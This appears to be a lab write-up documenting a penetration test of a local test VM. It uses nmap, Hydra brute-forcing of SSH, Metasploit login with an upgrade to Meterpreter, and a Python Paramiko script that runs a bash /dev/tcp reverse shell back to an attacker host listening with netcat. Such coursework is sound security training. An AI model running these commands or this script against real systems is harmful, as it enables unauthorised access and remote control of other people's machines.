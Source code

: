 # Phase 1: Exploitation and Reverse Shell

## ✅ Task 1.1: Compromise the target using Metasploit

### Service Targeted
- **Service**: SSH (OpenSSH 6.6.1p1)
- **Vulnerable Credentials**: `vagrant:vagrant`

### Steps Followed:
1. **Reconnaissance**:
   ```bash
   nmap -sV -p22 192.168.142.131
   ```
   - Identified OpenSSH running on port 22

2. **Brute-Force with Hydra**:
   ```bash
   hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
   ```
   - Discovered working credentials: `vagrant:vagrant`

3. **Exploit with Metasploit**:
   ```
   sudo msfconsole
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.142.131
   set USERNAME vagrant
   set PASSWORD vagrant
   run
   ```
   - SSH shell session established

4. **Upgrade to Meterpreter**:
   ```
   use post/multi/manage/shell_to_meterpreter
   set SESSION 1
   session 1 
   shell
   ```
   - Upgraded shell to Meterpreter session


## ✅ Task 1.2: Exploit via Custom Python Script

### Script Summary
- Used Python with Paramiko to automate SSH login and trigger a reverse shell.

### Python Script: `ssh_bruteforce_reverse.py`
```python
import paramiko

target_ip = "192.168.142.131"
username = "vagrant"
password = "vagrant"
lhost="192.168.142.129"
lport = "4444"

payload = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(target_ip, username=username, password=password)
client.exec_command(payload)

client.close()
```

### Listener on Attacker Machine
```bash
nc -lvnp 4444
```
- Successful reverse shell received.

---

📸 Screenshots to Include:
- Hydra output showing credentials found
- Metasploit SSH login success
- Meterpreter session after upgrade
- Netcat receiving reverse shell
- Python script execution

